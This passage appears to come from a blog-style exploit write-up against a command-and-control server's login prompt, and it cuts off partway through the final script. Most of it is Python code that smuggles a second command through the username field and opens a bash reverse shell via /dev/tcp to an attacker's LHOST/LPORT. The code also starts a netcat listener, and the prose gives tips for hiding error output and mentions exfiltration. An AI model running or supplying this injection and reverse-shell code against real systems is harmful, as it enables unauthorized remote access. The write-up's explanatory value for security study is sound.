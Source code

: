 ```python
LPORT   = sys.argv[4]

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((C2_IP, int(C2_PORT)))
```
Afterwards we need to simulate the login process. We can do that by simply sending 3 messages to the server - `login`, `username payload` and `password` respectively.

```python
CMD = "sh -i >& /dev/tcp/{}/{} 0>&1".format(LHOST, LPORT) # Payload

print("Simulating a login command.")
sock.send(bytes("login\r\n", "utf-8"))	
	
sleep(1)
print("Sending the payload.")
sock.send(bytes('user";clear; {} ;# \r\n'.format(CMD),"utf-8")) # Hiding the error output with ;clear
		
sock.send(bytes('Press F to pay respects.\r\n',"utf-8")) # Password doesn't matter
sleep(1)
```

> **Note:** One kind redditor pointed out I can pipe the output to `/dev/null` instead of doing clear. A lot better! I wonder why I forgot about such a trivial thing :).  

As you can see, Bash is used in combination with `/dev/tcp/` to create a reverse shell. It's important to notice that each command send contains a carriage return (**\r**) and a new line feed (**\n**). Without the CRLF our exploit wouldn’t work.

> **Note:** CentOS doesn't come with netcat preinstalled. Have that in mind when choosing a reverse shell or attempting data exfiltration

The core of our exploit is now finished. Let's improve it just a tiny bit by adding a horrible global *try-except* and our own *netcat* listener.  

```python
#!/usr/env/python3

import socket
import os
import sys
import threading
from time import sleep

def Listen(port):
	os.system("nc -nlvp {}".format(port))

if(len(sys.argv) != 5):
	exit("Usage:\n\tpython3 {} C2_IP C2_PORT LHOST LPORT".format(sys.argv[0]))

C2_IP   = sys.argv[1]
C2_PORT = sys.argv[2]
LHOST   = sys.argv[3]
LPORT   = sys.argv[4]

CMD  = "sh -i >& /dev/tcp/{}/{} 0>&1".format(LHOST, LPORT)

try:	
	sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	sock.connect((C2_IP, int(C2_PORT)))		

	print("Simulating a login command.")
	sock.send(bytes("login\r\n", "utf-8"))	
	
	sleep(1)
```